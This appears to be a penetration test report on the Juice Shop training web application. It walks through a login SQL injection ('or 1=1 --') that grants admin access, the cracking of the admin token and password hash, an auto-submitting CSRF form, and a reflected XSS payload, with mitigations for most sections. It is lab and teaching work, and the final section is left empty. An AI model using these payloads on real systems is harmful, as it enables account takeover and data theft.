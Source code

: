 # JUICE-SHOP PENTEST REPORT

This document provides a report of the vulnerabilities that we have found on Juice Shop WebApplication.


## SQL Injection

### Description

A SQL injection attack consists of the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database, recover the content of a given file present on the DBMS file system, and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands. The login page is vulnerable to SQL injection attacks using that an attacker can log in to the application without knowing the credentials.

### Steps

- Checked for a login field to input user commands.
Tried to check for a security misconfiguration by adding a ' Symbol.

```
POST /rest/user/login HTTP/1.1
...

{
"email":"'",
"password":"1"
}
```

Responded with an SQLite error and also the SQL tables and password hash.

- Checked for a simple SQL injection by trying to bypass the authentication process with 

```
POST /rest/user/login HTTP/1.1
Accept: application/json, text/plain, */*

{
 "email":"'or 1=1 --",
 "password":"1"
}
```

### PoC

we check for security misconfiguration

![SQLINJ](img/SQL_Juice02.png)

we bypass the login authentication process and are able to login as admin.

![SQLINJ](img/SQL_Juice01.png)

### Mitigation

To prevent SQL Injection attacks you should implement input validation and parameterized queries, including prepared statements. The application code should never use the input directly. The developer must sanitize all input, not only web form inputs such as login forms. They must remove potential malicious code elements such as single quotes. It is also a good idea to turn off the visibility of database errors on your production sites. Database errors are used with SQL Injection to gain information about your database.

## Identification and Authentication Failures

### Description
Identification and authentication failures can occur when functions related to a user's identity, authentication, or session management are not implemented correctly or not adequately protected by an application. Attackers may be able to exploit identification and authentication failures by compromising passwords, keys, session tokens, or exploit other implementation flaws to assume other users' identities, either temporarily or permanently.

### Steps

By using the above SQL Injection to bypass the Authentication process we got access to the authentication token.

Next Step was to decode the Token and then to decrypt the password hash.

### PoC

Authentication Token
![IAF](img/IA_failures01.png)

Decoded Token
![IAF](img/IA_failures02.png)

Decrypted hash

![IAF](img/IA_failures03.png)

Login as admin with password 

![IAF](img/IA_failures04.png)

Succesfully logged in

![IAF](img/IA_failures05.png)


## CSRF in the update of the username

### Description
Cross-Site Request Forgery (CSRF) is an attack that forces authenticated users to submit a request to a Web application against which they are currently authenticated. CSRF attacks exploit the trust a Web application has in an authenticated user. 

### Steps 

An HTML page with this form will cause the user to automatically update his username

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1:3000/profile" method="POST">
      <input type="hidden" name="username" value="CSRFIsSerious" />
    </form>
		<script>document.forms[0].submit()</script>
  </body>
</html>
```

### PoC
When the user clicks on the link that is responsible for sending the previous form, then the username is changed.
![csrf01](img/csrf01.png)

### Mitigation
Implement CSRF token with random value

## Reflected XSS (Cross Site Scripting)
### Description
A reflected XSS (also called a non-persistent XSS attack) is a specific type of XSS whose malicious script bounces off of another website to the victim's browser. It is passed in the query, typically, in the URL. It makes exploitation as easy as tricking a user to click on a link.
In this case, we can inject the malicious code into the search parameter of the URL. 

For example, the URL `http://127.0.0.1:3000/search?q=<img src=1 onerror="alert(1)"/>` will pop up an alert message. In other words, this allows an attacker to execute arbitrary JS on the victim's browser.
### Steps
### PoC
### Mitigation
